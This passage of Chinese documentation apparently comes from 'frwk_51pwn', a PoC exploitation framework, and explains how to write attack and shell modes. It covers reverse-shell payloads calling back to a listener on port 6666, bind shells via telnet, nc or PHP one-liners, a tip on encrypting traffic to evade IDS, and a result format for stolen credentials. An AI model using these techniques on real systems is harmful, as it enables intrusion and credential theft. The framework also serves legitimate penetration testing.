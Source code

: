 5. 编写攻击模式

攻击模式可以对目标进行 getshell，查询管理员帐号密码等操作，定义它的方法与检测模式类似
```python
def _attack(self):
    output = Output(self)
    result = {}
    # 攻击代码
```

和验证模式一样，攻击成功后需要把攻击得到结果赋值给 result 变量

**注意：如果该 PoC 没有攻击模式，可以在 \_attack() 函数下加入一句 return self.\_verify() 这样你就无需再写 \_attack 函数了。**

6. 编写shell模式 [**new**]

frwk_51pwn 在 shell 模式会默认监听 `6666` 端口，编写对应的攻击代码，让目标执行反向连接运行 frwk_51pwn 系统 IP 的 `6666` 端口即可得到一个 shell
```python
def _shell(self):
    cmd = REVERSE_PAYLOAD.BASH.format(get_listener_ip(), get_listener_port())
    # 攻击代码 execute cmd
```

shell 模式下，只能运行单个 PoC 脚本，控制台会进入 shell 交互模式执行命令及输出

从 ***1.8.5*** 版本开始，frwk_51pwn 支持 bind shell。shell 模式和原来的操作方式一致，也需要指定监听 ip 和端口，监听 ip 可以是本地任意 ip，也可以是远程 vps ip。

bind shell 的实现位于 `./frwk_51pwn/modules/listener/bind_tcp.py`，原理是实现了一个中间层，一端连接漏洞目标的 bind shell（如 telnet 服务、nc 启动的 shell、php 一句话等），另一端连接用户指定的监听 ip 和端口，如此一来，shell 模式可以不受网络环境限制，支持在内网使用。

目前支持三种 bind shell，使用场景如下：

`bind_shell`：通用方法，在 shell 模式中直接调用 `return bind_shell(self, rce_func)` 即可，非常便捷。针对有回显的漏洞，在 PoC 中实现一个 rce（函数名可自定义）方法，函数参数为命令输入，输出为命令输出。如果漏洞无回显，也可以通过写一句话转为有回显的。值得一提的是，用户也可以在 rce 方法中实现流量的加解密以逃避 IDS 检测。

`bind_tcp_shell`：对 tcp 绑定型 shell 的原生支持，在 shell 模式中 `return bind_tcp_shell(bind_shell_ip, bind_shell_port)`

`bind_telnet_shell`：对 telnet 服务的原生支持，在 shell 模式中 `return bind_telnet_shell(ip, port, username, password)`

7. 结果返回

不管是验证模式或者攻击模式，返回结果 result 中的 key 值必须按照下面的规范来写，result 各字段意义请参见[《PoC 结果返回规范》](#resultstandard)

```
'Result':{
   'DBInfo' :   {'Username': 'xxx', 'Password': 'xxx', 'Salt': 'xxx' , 'Uid':'xxx' , 'Groupid':'xxx'},
   'ShellInfo': {'URL': 'xxx', 'Content': 'xxx' },
   'FileInfo':  {'Filename':'xxx','Content':'xxx'},
   'XSSInfo':   {'URL':'xxx','Payload':'xxx'},
   'AdminInfo': {'Uid':'xxx' , 'Username':'xxx' , 'Password':'xxx' }
   'Database':  {'Hostname':'xxx', 'Username':'xxx',  'Password':'xxx', 'DBname':'xxx'},
   'VerifyInfo':{'URL': 'xxx' , 'Postdata':'xxx' , 'Path':'xxx'}
   'SiteAttr':  {'Process':'xxx'}
   'Stdout': 'result output string'
}
```
